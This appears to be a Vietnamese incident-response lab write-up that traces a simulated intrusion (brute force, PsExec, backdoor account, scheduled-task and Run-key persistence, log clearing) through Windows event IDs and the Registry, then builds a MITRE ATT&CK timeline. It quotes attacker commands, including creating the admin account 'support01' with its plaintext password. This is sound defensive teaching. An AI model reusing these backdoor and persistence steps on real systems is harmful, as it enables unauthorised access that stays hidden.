  

Điểm dễ nhầm: ở event quản lý tài khoản, người thực hiện nằm ở `Subject`, khác với 4624 nơi người đăng nhập nằm ở `Target`. Ghi lại thời điểm 4720 và 4732 — cách nhau vài giây, cho thấy tạo tài khoản rồi nâng quyền là một thao tác liền mạch.


#### Attacker đã chạy những lệnh gì?

Log **Security**, lọc `4688`. Số event nhiều nên `Ctrl + F` tìm lần lượt `support01`, `schtasks`, `wevtutil`. Với mỗi event, đọc `Process Command Line` (toàn bộ lệnh attacker gõ); `Creator Process Name` cho thấy chúng sinh ra từ service của PsExec, không phải shell đăng nhập bình thường.

Đáng chú ý: command line của `net user support01 ... /add` **lộ mật khẩu backdoor dạng rõ** ngay trong 4688. Nhiều lệnh khác cũng chứa thông tin nhạy cảm — lý do quyền đọc Security log phải giới hạn chặt. Ghi lại thời điểm từng 4688 — sắp theo thời gian, chúng là **trình tự thao tác**: tạo tài khoản → cài task → sửa registry → xóa log.





#### Không cần giải mã thủ công: event 4104

Payload mã hóa Base64 nên command line của 4688 không đọc được nội dung. Nhưng **Script Block Logging ghi lại script sau khi giải mã**. Vào **PowerShell → Operational**, **Filter Current Log...** `4104`, rồi `Ctrl + F` gõ `lab-test`. Tab General hiện nguyên văn lệnh PowerShell thật.

Đây là một trong những event giá trị nhất khi điều tra PowerShell: dù attacker làm rối lệnh, nội dung thật vẫn hiện ra. Ghi lại thời điểm 4104 và đối chiếu với 4688 tạo task — gần như trùng nhau, xác nhận payload của task chính là script này.



#### Tìm persistence

Persistence sống ở hai nơi, nhìn cả event lẫn Registry:

**Scheduled task.** Log Security lọc `4698`, đọc `TaskName` (`\OneDrive Update Check`) và `SubjectUserName`; định nghĩa task nằm trong `TaskContent` (XML). *Lưu ý:* 4698 cần audit `Other Object Access Events` — lần đầu mình quên bật nên lọc 4698 không ra gì; đây đúng là lý do audit phải bật trước khi sự cố xảy ra. Kênh **TaskScheduler → Operational** ghi event `106` mặc định (không cần audit) — nguồn dự phòng tốt.


**Run key.** Event log chỉ cho thấy *lệnh `reg.exe`* lúc tạo (đã thấy ở 4688); trạng thái hiện tại phải mở **regedit** xem. *Lưu ý một bẫy:* mở `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` có thể **không thấy** `Updater` dù đã add vào HKLM — vì PsExec chạy **32-bit**, lệnh ghi HKLM\SOFTWARE bị **WOW64 redirection** sang `HKLM\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Run`. Cả hai Run key đều chạy khi đăng nhập nên persistence vẫn hiệu lực. Khi truy tìm Run-key phải ngó đủ ba chỗ: `Run` native, `WOW6432Node\...\Run`, và hive SYSTEM `HKEY_USERS\S-1-5-18\...\Run` (nếu attacker ghi `HKCU` trong phiên SYSTEM). Quét gọn bằng `reg query HKLM\SOFTWARE /f Run /s` hoặc **Autoruns** (Sysinternals).


Giống với phần *Event và Registry*: event cho biết **ai đổi gì, khi nào**; Registry cho biết **cấu hình còn tồn tại không**. Ghi lại thời điểm 4698 (hoặc 106) — Registry key không mang "thời điểm tạo" trong event, nên chính event mới cho mốc thời gian của persistence.

#### Dấu vết xóa log

Log **System**, lọc `104`. Tab General ghi rõ **tên log bị xóa** (`Windows PowerShell`) và **tài khoản thực hiện**. Điểm đáng chú ý: attacker xóa log cổ điển `Windows PowerShell`, nhưng bằng chứng mạnh nhất — event 4104 — nằm ở kênh *PowerShell/Operational* không bị đụng tới. Ghi lại thời điểm 104 — thường là hành động cuối, khép lại timeline.



### Bước 3: Dựng timeline

Suốt Bước 2 mình đã ghi lại thời điểm của từng event trong lúc điều tra. Bước này không cần tìm thêm gì — chỉ gom các mốc đó lại, sắp theo thời gian, là ra **một dòng sự kiện** đọc từ trên xuống thành câu chuyện. Đây mới là sản phẩm chính của báo cáo sự cố:

| Thời điểm | Event | Log | Diễn giải | MITRE ATT&CK |
|---|---|---|---|---|
| 12:38:31 – 12:38:43 | 4625 ×32 | Security | Brute force `labuser` từ `10.0.2.128` — SubStatus `0xC000006A`: đúng user, sai mật khẩu | [T1110.001 — Brute Force: Password Guessing](https://attack.mitre.org/techniques/T1110/001/) |
| 12:38:45 | 4624 (Type 3) | Security | Đăng nhập thành công `labuser` từ `10.0.2.128` — **máy bị chiếm** | [T1078.003 — Valid Accounts: Local Accounts](https://attack.mitre.org/techniques/T1078/003/) |
| 12:39:03 | 7045 | System | Service lạ `waKU` (`UpPVIJsf.exe`) — PsExec thực thi từ xa | [T1569.002 — System Services: Service Execution](https://attack.mitre.org/techniques/T1569/002/) |
| 12:39:51 | 4720 + 4688 | Security | Tạo `support01` (`net user support01 'Supp0rt-Lab!' /add`) | [T1136.001 — Create Account: Local Account](https://attack.mitre.org/techniques/T1136/001/) |
| 12:39:57 | 4732 + 4688 | Security | Thêm `support01` vào `Administrators` (`net localgroup administrators support01 /add`) | [T1098.007 — Account Manipulation: Additional Local or Domain Groups](https://attack.mitre.org/techniques/T1098/007/) |
| 12:40:48 | 4698 | Security | Tạo scheduled task `\OneDrive Update Check` | [T1053.005 — Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/) |
| 12:41:00 | 4104 | PowerShell/Operational | Payload giải mã: `Write-Output 'lab-test' \| Out-File C:\Users\Public\lab.txt` | [T1059.001 — Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/) |
| 12:41:22 | 104 | System | Xóa log `Windows PowerShell` — xóa dấu vết | [T1070.001 — Indicator Removal: Clear Windows Event Logs](https://attack.mitre.org/techniques/T1070/001/) |

*Ghi chú:* cột MITRE ATT&CK ánh xạ mỗi event với kỹ thuật mà nó phơi bày. Một event có thể liên hệ nhiều kỹ thuật; ở đây chỉ nêu kỹ thuật chính tương ứng với từng hành động trong lab.

Tất cả đều rạng sáng **20/11/2026**. Đọc dọc bảng là thấy đủ các pha của một vụ xâm nhập: **dò mật khẩu → vào được → thực thi từ xa → lập tài khoản backdoor → cắm persistence → xóa dấu**. Mỗi dòng neo vào một event có thật, kèm IP, tài khoản hoặc lệnh cụ thể — đó là chỗ khác nhau giữa một báo cáo sự cố và một phỏng đoán.

### Rút ra từ bài Lab

- **Một manh mối kéo ra cả chuỗi.** Chỉ từ cảnh báo 4625, lần ra IP nguồn, đăng nhập thành công, service PsExec, tài khoản backdoor, persistence và việc xóa log.
- **Đọc đúng Subject và Target.** 4624: người đăng nhập ở `Target`. 4720/4732/4698: người thực hiện ở `Subject` — `Subject` là `SYSTEM` khi tạo tài khoản là bất thường.
- **Thực thi từ xa để lại dấu riêng.** PsExec sinh service 7045/4697; đối chiếu nhiều kỹ thuật (PsExec, WMI, WinRM) giúp nhận ra cách attacker di chuyển.
- **Audit phải bật trước.** Thiếu audit thì 4698 biến mất, thiếu command line thì 4688 vô dụng.
- **Đừng tin mỗi một chỗ.** Run key chui vào WOW6432Node, log PowerShell bị xóa nhưng 4104 vẫn còn — Security, System, các kênh Operational và Registry bổ sung cho nhau.
- **Thực tế: export trước khi phân tích.** `wevtutil epl Security C:\IR\Security.evtx` để lấy bản sao, rồi đọc bằng `Get-WinEvent -Path` hoặc **Hayabusa**, **Chainsaw**, **EvtxECmd** để quét `.evtx` bằng rule Sigma.
